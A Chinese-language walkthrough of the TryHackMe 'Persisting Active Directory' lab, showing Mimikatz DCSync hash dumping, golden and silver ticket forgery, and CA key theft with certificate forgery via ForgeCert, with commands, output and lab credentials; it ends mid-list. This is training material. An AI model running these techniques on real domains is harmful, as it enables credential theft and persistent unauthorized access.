# Persisting Active Directory - Active Directory 持久化

> [TryHackMe | Persisting Active Directory](https://tryhackme.com/room/persistingad)
>
> Updated in 2023-12-13
>
> 了解常见的 Active Directory 持久性技术，这些技术可在入侵后使用，以确保蓝队无法在红队演习中将您踢出。
>
> Learn about common Active Directory persistence techniques that can be used post-compromise to ensure the blue team will not be able to kick you out during a red team exercise.

## Introduction

这个网络是 `Breaching AD` 、 `Enumerating AD` 和 `Exploiting AD` 网络的延续。在继续进行此网络之前，请确保完成这些网络。另外，请注意我们将会详细讨论 AD 对象。如果你需要复习，请快速浏览一下这个房间。现在，我们已经利用了 AD 并获得了一些能够执行目标的位置，我们需要确保部署持久性，以防止蓝队轻易将我们驱逐出去。在这个网络中，我们将探索多种不同的方法，可以用来在 AD 中保持持久性。

### AD 持久化

在对 AD 进行攻击时，我们需要确保部署持久性。这将确保蓝队无法简单地通过轮换某些凭据将我们驱逐出去。正如之前提到的，对 AD 的妥协是循环的过程。我们会在妥协 AD 时部署持久性，而不仅仅是在最后阶段。这确保了如果我们的某个位置被蓝队发现，我们有几个后备方案。在这个持久性阶段，我们将使用几种技术，确保我们获得的访问权限不能轻易被撤销。这些持久性技术取决于我们迄今为止获得的具体权限和特权。

<div style={{textAlign:'center'}}>


</div>

### 学习目标

在这个网络中，我们将介绍几种可用于在 AD 中保持持久性的方法。这绝不是一个完整的列表，因为可用的方法通常高度依赖于 AD 结构和环境。然而，我们将介绍以下用于持久化 AD 的技术：

- AD 凭据和 DCSync-ing
- Silver 和 Golden Tickets
- AD 证书
- AD 安全标识符（SIDs）
- 访问控制列表（ACLs）
- 组策略对象（GPOs）

### 初始凭据

访问 `http://distributor.za.tryhackme.loc/creds` ，申请初始凭据

```plaintext
Your credentials have been generated: Username: alice.gibson Password: Scores1981
```

## Persistence through Credentials - 通过凭据实现持久化

### 恭喜

恭喜，旅途劳顿的行者！在突破 AD、执行枚举，并一路利用漏洞到达巅峰后（如果你是按顺序完成这些 AD 网络），你终于来到了持久性的酒馆。辛苦的工作结束了，现在是时候放松一下了。虽然 AD 持久性仍然是认真的事情，但与其他阶段相比，压力不会那么大。在这里，我们可以释放创造力。所以，让你疲惫的骨头在我们的酒馆里休息，来一杯好茶，让我们开始吧。

在使用你的低权限凭据的同时，你将被提供域管理员凭据。真是幸运！当讨论持久性技术时，你将使用特权凭据在你的低权限凭据集上执行持久性技术。记下以下域管理员账号：

```plaintext
Username: Administrator

Password: tryhackmewouldnotguess1@

Domain: ZA
```

由于我们为你提供了对整个域的完全访问权限，我们实际上无法隐藏任何标志，也不能强迫你在回答问题之前确保自己执行这些持久性技术。但我们鼓励你花些时间来研究这些方法，因为当蓝队开始驱逐你时，这些技术将在红队评估中带来回报。

我们将讨论的第一种并非最可靠的持久性技术是凭据。在先前房间讨论过的一些横向技术可能导致攻击者获得凭据访问权限。当提到 “凭据” 时，它可以指的是用户名和密码对，但在 AD 的上下文中，即使是密码哈希也足以通过传递哈希技术进行身份验证。

### DC Sync - 域控制器同步

在大型组织中，单个域控制器对于一个域来说是不够的。这些域通常用于多个地区，只有一个域控制器会显著延迟 AD 中的任何认证服务。因此，这些组织会使用多个域控制器。问题则变成了，如何可能使用相同的凭据在两个不同的办公室进行认证？

这个问题的答案是域复制。每个域控制器都运行一个称为知识一致性检查器（KCC）的进程。KCC 为 AD 架构生成一个复制拓扑，并通过远程过程调用（RPC）自动连接到其他域控制器以同步信息。这包括更新的信息，比如用户的新密码，以及新对象，比如创建新用户时的情况。这就是为什么在更改密码后，通常需要等待几分钟才能进行身份验证，因为密码更改发生的 DC 可能不是你正在进行身份验证的那个 DC。

复制的过程被称为域控制器同步。不仅仅是域控制器可以启动复制，像属于域管理员组的账户也可以为合法目的（比如创建新的域控制器）而执行复制。

一个常用的攻击是进行 DC Sync 攻击。如果我们能够访问具有域复制权限的账户，我们可以发起 DC Sync 攻击，从域控制器中收集凭据。

### 并非所有凭据都被平等地创建

在开始进行 DC Sync 攻击之前，让我们先讨论一下我们可能追求的凭据。虽然我们应该始终尝试获取特权凭据，比如属于域管理员组的凭据，但这些凭据也是最先进行 “轮换”（蓝队术语，意味着重置账户密码）的凭据。因此，如果我们只有特权凭据，可以肯定的是，一旦蓝队发现我们，他们会立即轮换这些账户，我们可能会失去访问权限。

因此，我们的目标是用接近特权的凭据持久存在。我们并不总是需要完整的 “王国之钥”，我们只需要足够的 “钥匙” 来确保我们仍然可以达到目标，并让蓝队时刻警惕。因此，我们应该尝试通过以下凭据来持久存在：

- 拥有多台机器本地管理员权限的凭据。通常，组织中会有一个或两个拥有几乎所有计算机本地管理员权限的组。这些组通常分为一个用于工作站，一个用于服务器。通过获取这些组成员的凭据，我们仍然可以访问大部分计算机。
- 拥有委派权限的服务账户。有了这些账户，我们可以强制生成黄金票据和白银票据，执行 Kerberos 委派攻击。
- 用于特权 AD 服务的账户。如果我们妥协了像 Exchange、Windows Server Update Services（WSUS）或 System Center Configuration Manager（SCCM）等特权服务的账户，我们可以利用 AD 漏洞再次获得特权立足点。

关于要倾泻和通过持久性的凭据是由许多因素决定的。你需要在思考中寻求创造性，并根据具体情况来处理。但是，在这个房间里，我们要玩得开心一些，让蓝队紧张起来，并且尽可能地倾倒我们能够获取的每一个凭据！

### DCSync All - DCSync 全部

我们将使用 Mimikatz 来收集凭据。使用域管理员账号（DA）通过 SSH 登录到 THMWRK1，并加载 Mimikatz：

```shell title="Terminal"
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

za\administrator@THMWRK1 C:\Users\Administrator.ZA>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

让我们首先执行一个特定账户的 DC Sync，使用我们自己的账户：

```shell title="Mimikatz Terminal"
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /user:<Your low-privilege AD Username>
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server
[DC] 'aaron.jones' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : aaron.jones

** SAM ACCOUNT **

SAM Username         : aaron.jones
Account Type         : 30000000 (USER_OBJECT)
User Account Control : 00000200 (NORMAL_ACCOUNT)
Account expiration   :
Password last change : 4/25/2022 7:30:21 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-1429
Object Relative ID   : 1429

Credentials:
  Hash NTLM: fbdcd5041c96ddbd82224270b57f11fc
    ntlm- 0: fbdcd5041c96ddbd82224270b57f11fc
    lm  - 0: 0fd2685aa18c78bd265d02bdec203b04

[...]

* Primary:WDigest *
    01  991d45386dd3561e0c5529d3605f96e6
    02  d5d6f25b233c87b289706d7b423f1145
[...]
```

你会看到大量输出，包括你账户的当前 NTLM 哈希值。你可以通过使用类似这样的网站将你的密码转换成 NTLM 哈希来验证这个哈希是否正确。

这很棒，但我们想要 DC Sync 每一个账户。为了做到这一点，我们需要在 Mimikatz 上启用日志记录：

```shell title="Mimikatz Terminal"
mimikatz # log <username>_dcdump.txt
Using '<username>_dcdump.txt' for logfile: OK
```

确保将 `<username>` 更改为你的用户名，以免覆盖其他用户的日志转储。现在，不再指定我们的账户，而是使用 `/all` 标志：

```shell title="Mimikatz Terminal"
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```

这将需要一些时间来完成。完成后，退出 Mimikatz 以完成转储查找，然后你可以下载 `<username>_dcdump.txt` 文件。你可以使用 `cat <username>_dcdump.txt | grep "SAM Username"` 来恢复所有用户名，使用 `cat <username>_dcdump.txt | grep "Hash NTLM"` 来查找所有哈希值。现在，我们可以执行离线密码破解攻击以恢复明文凭据，或者简单地使用 Mimikatz 进行传递哈希攻击。

:::info Answer the questions below

在 za.tryhackme.loc 域上为 test 用户名执行 DCSync 的 Mimikatz 命令是什么？

```plaintext
lsadump::dcsync /domain:za.tryhackme.loc /user:test
```

哈希是什么？ NTLM 与 krbtgt 用户关联的

```plaintext
16f9af38fca3ada405386b3b57366082
```

:::

## Persistence through Tickets - 通过票据实现持久化

在之前的任务中讨论过，我们通常希望通过具有委派权限的服务账户来持久化，以伪造白银票据和黄金票据。但它们到底是什么，为什么每次蓝队的桌面模拟演练都会以有人大喊 “清除所有黄金和白银票据！” 结束呢？

### Tickets to the Chocolate Factory - 通往巧克力工厂的门票

在深入了解黄金票据和白银票据之前，我们首先需要快速回顾一下 Kerberos 认证。下面的图示展示了 Kerberos 认证的正常流程：

<div style={{textAlign:'center'}}>



</div>

用户向域控制器（DC）的密钥分发中心（KDC）发出 AS-REQ 请求，其中包括使用用户的 NTLM 哈希加密的时间戳。本质上，这是请求获取票据授予票据（TGT）。DC 检查信息并将 TGT 发送给用户。该 TGT 使用 KRBTGT 账户的密码哈希签名，该密码哈希仅存储在 DC 上。用户现在可以将此 TGT 发送给 DC，以请求所需访问的资源的票据授予服务（TGS）。如果 TGT 检查通过，DC 将回复 TGS，该 TGS 使用用户请求访问的服务的 NTLM 哈希进行加密。然后用户将此 TGS 提交给服务以获取访问权限，服务可以验证 TGS，因为它知道自己的哈希并且可以授予用户访问权限。

说了这么多的背景理论，现在是时候研究黄金票据和白银票据了。

### Golden Tickets - 黄金票据

黄金票据是伪造的票据授予票据（TGT）。这意味着我们绕过了上述图示中的第 1 和第 2 步，无需向 DC 证明我们的身份。拥有特权账户的有效 TGT 后，我们现在可以请求几乎任何我们想要的 TGS。为了伪造黄金票据，我们需要 KRBTGT 账户的密码哈希，这样我们就可以为任何用户账户签发 TGT。有关黄金票据的一些有趣说明：

- 通过在 Kerberos 过程的此阶段注入，我们无需目标账户的密码哈希，因为我们绕过了该步骤。TGT 仅用于证明 DC 在 DC 上签名了它。由于它由 KRBTGT 哈希签名，这种验证通过，并且无论其内容如何，TGT 都被声明为有效。
- 谈到内容，KDC 仅在 TGT 中指定的用户账户大于 20 分钟时才会验证其有效性。这意味着我们可以将禁用、删除或不存在的账户放入 TGT 中，只要确保时间戳不超过 20 分钟，它就是有效的。
- 由于票据的策略和规则设置在 TGT 本身，我们可以覆盖 KDC 推送的值，比如，票据只能有效 10 小时。例如，我们可以确保我们的 TGT 有效期为 10 年，给予我们持久性。
- 默认情况下，KRBTGT 账户的密码永远不会更改，这意味着一旦我们获取了它，除非手动更改，否则我们可以永远生成 TGT 来获得持久访问。
- 蓝队必须两次更改 KRBTGT 账户的密码，因为当前密码和上一个密码对该账户仍然有效。这是为了确保密码的意外更改不会影响服务。
- 更改 KRBTGT 账户的密码对于蓝队来说是一个非常痛苦的过程，因为它会导致环境中大量服务停止工作。他们认为自己有一个有效的 TGT，有时甚至持续几个小时，但那个 TGT 已经失效。并非所有服务都足够智能以释放不再有效的 TGT（因为时间戳仍然有效），因此不会自动请求新的 TGT。
- 黄金票据甚至可以让你绕过智能卡认证，因为在创建 TGT 之前，智能卡是由 DC 验证的。
- 我们甚至可以在任何机器上生成黄金票据，甚至是非加入域的机器（比如我们自己的攻击机器），这使得蓝队更难以检测。

除了 KRBTGT 账户的密码哈希外，我们只需要目标人员的域名、域 SID 和用户 ID 来冒充。如果我们处于能够恢复 KRBTGT 账户密码哈希的位置，我们已经处于可以恢复其他所需信息片段的位置了。

### Silver Tickets - 白银票据

白银票据是伪造的 TGS 票据。因此，现在我们跳过了与 DC 上的 KDC 进行的所有通信（上图中的步骤 1-4），直接与我们想要访问的服务进行交互。关于白银票据的一些有趣说明：

- 生成的 TGS 由我们攻击的主机的机器账户签名。
- 黄金票据和白银票据的主要区别在于我们获得的权限数量。如果我们有 KRBTGT 账户的密码哈希，我们可以访问一切。但是使用白银票据，因为我们只能访问我们攻击的服务器的机器账户密码哈希，我们只能冒充该主机上的用户。白银票据的范围仅限于特定服务器上所针对的服务。
- 由于 TGS 是伪造的，因此没有相关的 TGT，意味着从未与 DC 进行过联系。这使得攻击非常危险，因为唯一可用的日志将位于目标服务器上。因此，尽管范围更受限制，但对于蓝队来说极其难以检测。
- 由于权限是通过 SID 确定的，我们可以为我们的白银票据创建一个不存在的用户，只要确保票据具有将用户放置在主机本地管理员组中的相关 SID。
- 机器账户的密码通常每 30 天更换一次，这对于持久性来说并不好。但是，我们可以利用 TGS 提供的访问权限，访问主机的注册表，并更改负责机器账户密码轮换的参数。从而确保机器账户保持静态，并使我们在该机器上具有持久性。
- 尽管只能访问单个主机似乎是一个重大的降级，但是机器账户可以像普通的 AD 账户一样使用，这不仅允许您对主机进行管理访问，还可以以与 AD 用户账户相同的方式继续枚举和利用 AD。

### 伪造票据的乐趣与好处

现在我们已经解释了黄金票据和白银票据的基础知识，让我们来生成一些。你需要 KRBTGT 账户的 NTLM 哈希，由于之前执行的 DC Sync，你应该已经获取了这个。此外，记下与 THMSERVER1 机器账户相关的 NTLM 哈希，因为我们需要这个来生成白银票据。你可以在执行的 DC dump 中找到这些信息。我们还需要的最后一部分信息是域 SID。使用我们在 THMWRK1 上的低权限 SSH 终端，我们可以使用 AD-RSAT cmdlet 来恢复这些信息。

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator.ZA> Get-ADDomain


AllowedDNSSuffixes                 : {}
ComputersContainer                 : CN=Computers,DC=za,DC=tryhackme,DC=loc
DeletedObjectsContainer            : CN=Deleted Objects,DC=za,DC=tryhackme,DC=loc
DistinguishedName                  : DC=za,DC=tryhackme,DC=loc
DNSRoot                            : za.tryhackme.loc
DomainControllersContainer         : OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
DomainMode                         : Windows2012R2Domain
DomainSID                          : S-1-5-21-3885271727-2693558621-2658995185
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=za,DC=tryhackme,DC=loc
Forest                             : tryhackme.loc
InfrastructureMaster               : THMDC.za.tryhackme.loc
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=za,DC=tryhackme,DC=loc}
LostAndFoundContainer              : CN=LostAndFound,DC=za,DC=tryhackme,DC=loc
ManagedBy                          :
Name                               : za
NetBIOSName                        : ZA
ObjectClass                        : domainDNS
ObjectGUID                         : 1fc9e299-da51-4d03-baa0-862c3360c0b2
ParentDomain                       : tryhackme.loc
PDCEmulator                        : THMDC.za.tryhackme.loc
PublicKeyRequiredPasswordRolling   :
QuotasContainer                    : CN=NTDS Quotas,DC=za,DC=tryhackme,DC=loc
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {THMDC.za.tryhackme.loc}
RIDMaster                          : THMDC.za.tryhackme.loc
SubordinateReferences              : {DC=DomainDnsZones,DC=za,DC=tryhackme,DC=loc}
SystemsContainer                   : CN=System,DC=za,DC=tryhackme,DC=loc
UsersContainer                     : CN=Users,DC=za,DC=tryhackme,DC=loc
```

现在我们拥有所有所需的信息，可以重新启动 Mimikatz：

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

一旦加载了 Mimikatz，请执行以下步骤生成一个黄金票据：

```shell title="Mimikatz Terminal"
mimikatz # kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```

参数解释：

- /admin - 我们想要冒充的用户名。这不一定是有效的用户。
- /domain - 我们要为其生成票据的域的完全限定域名（FQDN）。
- /id - 用户 RID。默认情况下，Mimikatz 使用 RID 500，这是默认管理员账户的 RID。
- /sid - 我们要为其生成票据的域的 SID。
- /krbtgt - KRBTGT 账户的 NTLM 哈希。
- /endin - 票据的生存期。默认情况下，Mimikatz 生成的票据有效期为 10 年。AD 的默认 Kerberos 策略是 10 小时（600 分钟）。
- /renewmax - 带续订的最大票据生存期。默认情况下，Mimikatz 生成的票据有效期为 10 年。AD 的默认 Kerberos 策略是 7 天（10080 分钟）。
- /ptt - 此标志告诉 Mimikatz 将票据直接注入会话中，这意味着它已准备好使用。

我们可以通过针对域控制器运行 dir 命令来验证黄金票据是否有效。

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>dir \\thmdc.za.tryhackme.loc\c$\
```

即使黄金票据的时间非常长，蓝队仍然可以通过简单地两次更改 KRBTGT 密码来防御。如果我们确实想要深入挖掘，我们希望生成白银票据，这更不容易被发现，而且防御起来显著困难，因为必须更改每个机器账户的密码。我们可以使用以下 Mimikatz 命令生成白银票据：

```shell title="Mimikatz Terminal"
mimikatz # kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```

参数解释：

- /admin - 我们想要冒充的用户名。这不一定是有效的用户。
- /domain - 我们要为其生成票据的域的完全限定域名（FQDN）。
- /id - 用户 RID。默认情况下，Mimikatz 使用 RID 500，这是默认管理员账户的 RID。
- /sid - 我们要为其生成票据的域的 SID。
- /target - 我们目标服务器的主机名。让我们使用 THMSERVER1.za.tryhackme.loc，但它可以是任何加入域的主机。
- /rc4 - 我们目标机器账户的 NTLM 哈希。浏览你的 DC Sync 结果以获取 THMSERVER1$ 的 NTLM 哈希。$ 表示它是一个机器账户。
- /service - 我们在 TGS 中请求的服务。CIFS 是一个安全的选择，因为它允许文件访问。
- /ptt - 此标志告诉 Mimikatz 将票据直接注入会话中，这意味着它已准备好使用。

我们可以通过针对 THMSERVER1 运行 dir 命令来验证白银票据是否有效。

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>dir \\thmserver1.za.tryhackme.loc\c$\
```

黄金票据和白银票据为 AD 环境提供了比仅凭凭据更好的持久性！

:::info Answer the questions below

哪个 AD 帐户的 NTLM 哈希用于签署 Kerberos 票证？

```plaintext
KRBTGT
```

冒充合法 TGT 的票据的名称是什么？

```plaintext
Golden Tickets
```

冒充合法 TGS 的票据的名称是什么？

```plaintext
Silver Tickets
```

Mimikatz 生成的金票的默认生命周期是多少（以年为单位）？

```plaintext
10
```

:::

## Persistence through Certificates  - 通过证书实现持久化

:::warning

从这一点开始讨论的技术非常具有侵入性且难以移除。即使你在红队演练中获得了执行这些技术的批准，你在执行这些技术时也必须格外小心。在实际情况下，对大多数这些技术的利用将导致整个域的重建。确保你充分理解使用这些技术的后果，并且只有在评估中获得事先批准且被认为是必要的情况下才执行它们。在大多数情况下，红队演练此时将被解除，而不是使用这些技术。这意味着你很可能不会执行这些持久性技术，而是模拟它们。

:::

最后两种持久性技术依赖于凭据。虽然我们可以确实让蓝队的工作复杂化，但他们最终可以轮换足够多的凭据来将我们驱逐出去。因此，虽然这些技术可以让蓝队忙碌，但同时我们也应该寻求使用不依赖凭据的持久性技术，这意味着这些技术的轮换不会将我们驱逐出去。我们要看的第一种就是证书。

### 回归 AD CS

在 `Exploiting AD` 房间中，我们利用证书成为了域管理员。然而，证书也可以用于持久性。我们只需要一个可用于客户端认证的有效证书。这将允许我们使用该证书请求 TGT。美妙之处在于？我们可以继续请求 TGT，无论他们对我们攻击的账户进行多少次轮换。我们被踢出的唯一方式是他们撤销我们生成的证书，或者证书过期。这意味着默认情况下，我们可能会在接下来的大约 5 年内持久访问。

如果你想要关于如何请求证书并将其用于 Kerberos 认证的刷新，请前往 `Exploiting AD` 或 `AD Certificates Template` 房间。然而，在这个房间里，我们不是在闹着玩。我们要攻击的是证书颁发机构（CA）本身。

根据我们的访问权限，我们可以再进一步。我们可以简单地窃取根 CA 证书的私钥，随时生成我们自己的证书。更糟糕的是，由于这些证书从未由 CA 颁发，蓝队无法撤销它们。这对蓝队来说将是更糟糕的情况，因为这意味着 CA 的轮换，意味着所有已颁发的证书都必须由蓝队撤销才能将我们踢出去。想象一下，你刚刚花了最近两天时间通过轮换每个特权账户的凭据、重置所有黄金和白银票据来夺回域控制权，结果发现攻击者通过成为你的 CA 而持续存在。糟糕透了！

### 提取私钥

CA 的私钥存储在 CA 服务器上。如果私钥没有通过硬件保护方法（如硬件安全模块 HSM）进行保护，而这种情况在仅使用 Active Directory 证书服务（AD CS）进行内部用途的组织中经常出现，那么它就是由机器数据保护 API（DPAPI）保护的。这意味着我们可以使用诸如 Mimikatz 和 SharpDPAPI 之类的工具来提取 CA 证书，进而提取 CA 的私钥。Mimikatz 是最简单的工具，但如果你想尝试其他工具，可以在 [Golden Certificate](https://pentestlab.blog/2021/11/15/golden-certificate/) 看看。使用 SSH 使用 Task 2 中的管理员凭据对 THMDC.za.tryhackme.loc 进行身份验证，为你的用户创建一个唯一的目录，进入该目录，并加载 Mimikatz：

```shell title="Terminal"
za\administrator@DC C:\Users\Administrator.ZA>mkdir <username>
za\administrator@DC C:\Users\Administrator.ZA>cd <username>
za\administrator@DC C:\Users\Administrator.ZA\am0>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

让我们首先看看能否查看存储在 DC 上的证书：

```shell title="Mimikatz Terminal"
mimikatz # crypto::certificates /systemstore:local_machine
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'My'

 0.
    Subject  :
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 040000000000703a4d78090a0ab10400000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:43 PM -> 4/27/2023 8:32:43 PM
    Hash SHA1: d6a84e153fa326554f095be4255460d5a6ce2b39
        Key Container  : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
        Type           : AT_KEYEXCHANGE (0x00000001)
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-DomainControllerAuthentication-5ed52c94-34e8-4450-a751-a57ac55a110f
        |Unique name   : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b (CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ;)
        Exportable key : NO
[....]
```

我们可以看到在 DC 上有一个 CA 证书。我们还可以注意到其中一些证书被设置为不允许导出密钥。如果没有这个私钥，我们将无法生成新的证书。幸运的是，Mimikatz 允许我们对内存进行修补，使这些密钥可导出：

```shell title="Mimikatz Terminal"
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz # crypto::cng
"KeyIso" service patched
```

如果出现错误，不要担心，这意味着有人在你之前执行了这个补丁。有了这些服务的修补，我们可以使用 Mimikatz 来导出证书：

```shell title="Mimikatz Terminal"
mimikatz # crypto::certificates /systemstore:local_machine /export
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'My'

 0.
    Subject  :
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 040000000000703a4d78090a0ab10400000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:43 PM -> 4/27/2023 8:32:43 PM
    Hash SHA1: d6a84e153fa326554f095be4255460d5a6ce2b39
        Key Container  : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
        Type           : AT_KEYEXCHANGE (0x00000001)
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-DomainControllerAuthentication-5ed52c94-34e8-4450-a751-a57ac55a110f
        |Unique name   : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b (CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ;)
        Exportable key : NO
[....]
```

导出的证书将以 PFX 和 DER 格式存储到磁盘上：

```shell title="Terminal"
za\administrator@THMDC C:\Users\Administrator.ZA\am0>dir
 Volume in drive C is Windows
 Volume Serial Number is 1634-22A9

 Directory of C:\Tools\x64

05/10/2022  12:12 PM    <DIR>          .
05/10/2022  12:12 PM    <DIR>          ..
05/10/2022  12:12 PM             1,423 local_machine_My_0_.der
05/10/2022  12:12 PM             3,299 local_machine_My_0_.pfx
05/10/2022  12:12 PM               939 local_machine_My_1_za-THMDC-CA.der
05/10/2022  12:12 PM             2,685 local_machine_My_1_za-THMDC-CA.pfx
05/10/2022  12:12 PM             1,534 local_machine_My_2_THMDC.za.tryhackme.loc.der
05/10/2022  12:12 PM             3,380 local_machine_My_2_THMDC.za.tryhackme.loc.pfx
05/10/2022  12:12 PM             1,465 local_machine_My_3_.der
05/10/2022  12:12 PM             3,321 local_machine_My_3_.pfx
```

`za-THMDC-CA.pfx` 证书是我们特别感兴趣的证书。为了导出私钥，必须使用密码对证书进行加密。默认情况下，Mimikatz 分配的密码是 `mimikatz` 。使用 SCP 下载或复制此证书到你的 AttackBox，然后将其复制到 THMWRK1 上低权限用户的主目录中。如果你更喜欢，也可以在你自己的非域加入的 Windows 机器上执行剩余的步骤。

### 生成我们自己的证书

现在我们拥有了私钥和根 CA 证书，我们可以使用 SpectorOps [ForgeCert](https://github.com/GhostPack/ForgeCert) 工具为任何我们想要的用户伪造一个客户端认证证书。ForgeCert 和 Rubeus 二进制文件存储在 THMWRK1 的 C:\Tools \ 目录中。让我们使用 ForgeCert 来生成一个新的证书：

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123
```

参数解释：

- CaCertPath - 我们导出的 CA 证书的路径。
- CaCertPassword - 用于加密证书的密码。默认情况下，Mimikatz 分配的密码是 mimikatz。
- Subject - 证书的主题或通用名称。在我们将要使用证书的情境下并不重要。
- SubjectAltName - 这是我们想要使用这个证书伪装的账户的用户主体名称（UPN）。它必须是一个合法的用户。
- NewCertPath - ForgeCert 将生成的证书存储的路径。
- NewCertPassword - 由于证书将需要导出的私钥进行身份验证，我们必须设置一个用于加密它的新密码。

我们可以使用 Rubeus 使用证书请求一个 TGT，以验证证书是否受信任。我们将使用以下命令：

```shell
C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate: /password: /outfile: /domain:za.tryhackme.loc /dc:
```

让我们分解一下这些参数：

- /user - 这指定了我们将要冒充的用户，并且必须与我们生成的证书的 UPN 匹配。
- /enctype - 这指定了票据的加密类型。设置这个参数很重要，因为默认的加密算法是弱的，这可能会导致一个 “超越哈希” 警报。
